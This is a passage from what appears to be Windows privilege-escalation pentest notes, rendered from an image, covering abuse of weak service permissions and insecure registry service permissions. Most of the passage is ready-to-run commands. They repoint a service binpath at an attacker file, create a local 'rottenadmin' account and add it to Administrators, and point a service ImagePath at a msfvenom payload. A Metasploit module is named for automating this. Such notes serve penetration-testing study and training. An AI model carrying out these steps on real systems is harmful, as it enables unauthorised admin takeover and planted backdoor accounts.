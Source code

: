             -   SERVICE\_ALL\_ACCESS

            -   RW BUILTIN\\Power Users

            -   SERVICE\_ALL\_ACCESS

    -   **Exploit the service binpath (binary planting)**

        -   **Ex:**

            -   Sc qc \[service\_name\]

            -   sc config \[service\_name\] binpath=\"evilfile\"

            -   sc config \[service\_name\] obj=\"\\LocalSystem\" password=\"\"

            -   sc qc \[service\_name\]    - \>to verify

            -   net stop \[service\_name\]

            -   net start \[service\_name\]

        -   Another Ex:

            -   Sc qc \[service\_name\]

            -   sc config service binpath= \"net user rottenadmin P\@ssword123! /add\"

            -   sc stop service

            -   sc start service

            -   sc config service binpath= \"net localgroup Administrators rottenadmin /add\"

            -   sc stop service

            -   sc start service

        -   Automate the process with Metasploit Module: exploit/windows/local/service\_permissions

-   **Insecure registry service permissions**

    -   Same idea as weak/insecure service permission but instead of changing the binpath (imagepath) from the service property we will change it from the registry , In Windows, information related to services is stored in  "*HKLM\\SYSTEM\\CurrentControlSet\\Services"*

    -   Check the permissions of sub registry key by right click on the service folder or install "SubInACL" tool

        -   subinacl.exe /keyreg \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\Vulnerable Service\" /display

        -   if we have the permission to change the imagepath then

    -   Generate a payload with msfvenom , upload it to the target's host

    -   Change the imagepath or the binpath of the service from the registry

        -   reg add \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\ControlSet001\\Services\\Vulnerable Service\" /t REG\_EXPAND\_SZ /v ImagePath /d \"C:\\Users\\testuser\\AppData\\Local\\Temp\\Payload.exe\" /f

    -   Restart the service or the pc

-   **Insecure Service file Permissions: (Weak Service Executable or Configuration File Permissions or Insecure File/Folder Permissions)**
